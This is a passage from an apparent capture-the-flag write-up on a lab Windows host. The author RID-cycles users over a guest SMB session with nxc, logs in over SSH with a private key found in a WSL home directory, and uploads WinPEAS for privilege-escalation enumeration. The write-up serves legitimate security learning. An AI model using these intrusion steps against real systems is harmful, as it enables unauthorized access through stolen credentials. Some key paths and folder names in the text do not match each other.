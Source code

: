 I eventually fell back to WSL to look for other clues. We see a ssh private key in the ```dev-datasci``` user's home directory.

```
root@DEV-DATASCI-JUP:/home/dev-datasci/datasci-team$ ls ..
ls ..
anaconda3
anacondainstall.sh
datasci-team
dev-datasci-lowpriv_id_ed25519
```

RID cycling confirms ```dev-datasci-lowpriv``` is a valid user on the Windows machine.

```
┌──(kali㉿kali)-[/tmp]
└─$ nxc smb 10.10.34.193 -u guest -p '' --rid-brute
SMB         10.10.34.193    445    DEV-DATASCI-JUP  [*] Windows 10 / Server 2019 Build 17763 x64 (name:DEV-DATASCI-JUP) (domain:DEV-DATASCI-JUP) (signing:False) (SMBv1:False)
SMB         10.10.34.193    445    DEV-DATASCI-JUP  [+] DEV-DATASCI-JUP\guest: 
SMB         10.10.34.193    445    DEV-DATASCI-JUP  500: DEV-DATASCI-JUP\Administrator (SidTypeUser)
SMB         10.10.34.193    445    DEV-DATASCI-JUP  501: DEV-DATASCI-JUP\Guest (SidTypeUser)
SMB         10.10.34.193    445    DEV-DATASCI-JUP  503: DEV-DATASCI-JUP\DefaultAccount (SidTypeUser)
SMB         10.10.34.193    445    DEV-DATASCI-JUP  504: DEV-DATASCI-JUP\WDAGUtilityAccount (SidTypeUser)
SMB         10.10.34.193    445    DEV-DATASCI-JUP  513: DEV-DATASCI-JUP\None (SidTypeGroup)
SMB         10.10.34.193    445    DEV-DATASCI-JUP  1000: DEV-DATASCI-JUP\dev-datasci-lowpriv (SidTypeUser)
SMB         10.10.34.193    445    DEV-DATASCI-JUP  1001: DEV-DATASCI-JUP\sshd (SidTypeUser)
```

We can therefore ssh onto the Windows host OS.

```
┌──(kali㉿kali)-[/tmp]
└─$ ssh -i dev-datasci-lowpriv_id_ed25519 dev-datasci-lowpriv@10.10.34.193
```

### Privilege Escalation
We can use WinPEAS to facilitate our enumeration. I transferred it to the Windows host through scp.

```
┌──(kali㉿kali)-[~]
└─$ scp -i /tmp/id_rsa ~/winPEASany.exe dev-datasci-lowpriv@10.10.34.193:C:\Users\datasci-team\winpeas.exe    
winPEASany.exe
```

The filename did get jumbled up, so I renamed it for clarity.

```
dev-datasci-lowpriv@DEV-DATASCI-JUP C:\Users\dev-datasci-lowpriv>dir 
 Volume in drive C has no label. 
 Volume Serial Number is 8AA3-53D1

 Directory of C:\Users\dev-datasci-lowpriv

12/22/2024  08:30 PM    <DIR>          .
12/22/2024  08:30 PM    <DIR>          ..
08/25/2022  05:20 AM    <DIR>          .ssh
08/25/2022  04:22 AM    <DIR>          3D Objects
08/25/2022  04:22 AM    <DIR>          Contacts
08/25/2022  06:39 AM    <DIR>          Desktop
08/25/2022  04:22 AM    <DIR>          Documents
08/25/2022  04:22 AM    <DIR>          Downloads
08/25/2022  04:22 AM    <DIR>          Favorites
08/25/2022  04:22 AM    <DIR>          Links
```

[^1]: You can read still the flags here, but AFAIK getting command execution on Windows isn't possible from the mounted filesystem.